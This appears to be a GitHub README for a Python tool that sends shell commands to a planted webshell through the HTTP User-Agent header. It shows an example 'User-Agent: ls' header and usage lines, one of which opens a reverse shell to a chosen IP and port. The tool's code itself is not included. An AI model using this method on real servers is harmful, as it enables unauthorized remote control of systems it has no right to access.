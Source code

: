 This tool was created for automate process of make connections to  webshell by header

for example, when there is a page webshell.php and the Header <b>User-Agent</b> is accepting 
code execution in the server 

and you can execute commands as in the the example:

<b>User-Agent: ls </b>


<h1>How to use</h1>

<b>default connection:</b>

python3 connect.py [webpage] [Argument]

<b>Reverse Shell connection:</b>

python3 connect.py [webpage] [Argument] [reverse_shell_ip] [reverse_shell_port]

